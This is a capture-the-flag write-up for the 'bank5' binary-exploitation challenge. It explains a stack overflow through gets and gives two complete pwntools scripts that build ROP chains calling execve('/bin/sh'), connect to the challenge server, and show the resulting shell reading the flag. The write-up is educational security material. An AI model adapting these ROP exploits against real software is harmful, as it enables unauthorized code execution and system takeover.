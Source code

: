 ## bank5 (200 points)

#### Solved by hieplpvip

```
nc 61.28.237.24 30206

author: xikhud
```

Decompiling `bank5` with IDA, we see that `getFlag` no longer exists. NX is also enabled, so we can not inject shellcode. However, as `bank5` doesn't have PIE enabled and uses gets (which accepts null bytes) to read our input, we can use ROP.

```
$ pwn checksec bank5
[*] '/home/hieple/bank5'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

Our goal is to call `execve("/bin/sh", NULL, NULL)`. We need to setup the registers as follows:

```
EAX = 11 - The execve syscall number
EBX = Address in memory of the string "/bin/sh"
ECX = NULL
EDX = NULL
```

`/bin/sh` doesn't exist in `bank5`, so we also need to put it in memory.

```py
from pwn import *

INT_0x80_ADDR = 0x08049553  # int 0x80
POP_EAX_ADDR = 0x0809d514  # pop eax ; ret
POP_EDX_ADDR = 0x0806dfab  # pop edx ; ret
POP_ECX_EBX_ADDR = 0x0806dfd2  # pop ecx ; pop ebx ; ret
MOV_EDX_INTO_EAX_ADDR = 0x0809cd34  # mov dword ptr [eax], edx ; ret
SAFE_ADDR = 0x080da320  # .bss section
EXEC = '/bin/sh\x00'
EXEC = [EXEC[:4], EXEC[4:]]

def write_mem(value, addr):
  if type(value) == int:
    value = p32(value)
  if type(value) == str:
    value = value.encode('utf-8')
  payload = p32(POP_EDX_ADDR) + value
  payload += p32(POP_EAX_ADDR) + p32(addr)
  payload += p32(MOV_EDX_INTO_EAX_ADDR)
  return payload

# Write EXEC into SAFE_ADDR
payload = b'A' * 80  # padding
payload += write_mem(EXEC[0], SAFE_ADDR)
payload += write_mem(EXEC[1], SAFE_ADDR + 4)

# Populate registers for the syscall
payload += p32(POP_EAX_ADDR) + p32(11)
payload += p32(POP_ECX_EBX_ADDR) + p32(0) + p32(SAFE_ADDR)
payload += p32(POP_EDX_ADDR) + p32(0)

# Syscall
payload += p32(INT_0x80_ADDR)

conn = remote('61.28.237.24', 30206)
conn.sendline(payload)
conn.interactive()
```

```
$ ls
bank5
bin
dev
flag.txt
lib
lib32
lib64
$ cat flag.txt
HCMUS-CTF{rop_and_shellcode}
```

**Flag:** `HCMUS-CTF{rop_and_shellcode}`

### Appendix

We can also call `gets` to write `/bin/sh`.

```py
from pwn import *

elf = ELF('bank5')

GETS_ADDR = elf.symbols['gets']
INT_0x80_ADDR = 0x08049553  # int 0x80
POP_EAX_ADDR = 0x0809d514  # pop eax ; ret
POP_EDX_ADDR = 0x0806dfab  # pop edx ; ret
POP_ECX_EBX_ADDR = 0x0806dfd2  # pop ecx ; pop ebx ; ret
SAFE_ADDR = 0x080da320  # .bss section

# Use gets to write "/bin/sh" to SAFE_ADDR
payload = b'A' * 80  # padding
payload += p32(GETS_ADDR)
payload += p32(POP_EAX_ADDR)
payload += p32(SAFE_ADDR)

# Populate registers for the syscall
payload += p32(POP_EAX_ADDR) + p32(11)
payload += p32(POP_ECX_EBX_ADDR) + p32(0) + p32(SAFE_ADDR)
payload += p32(POP_EDX_ADDR) + p32(0)

# Syscall
payload += p32(INT_0x80_ADDR)

conn = remote('61.28.237.24', 30206)
conn.sendline(payload)
conn.sendline('/bin/sh\x00')
conn.interactive()
```
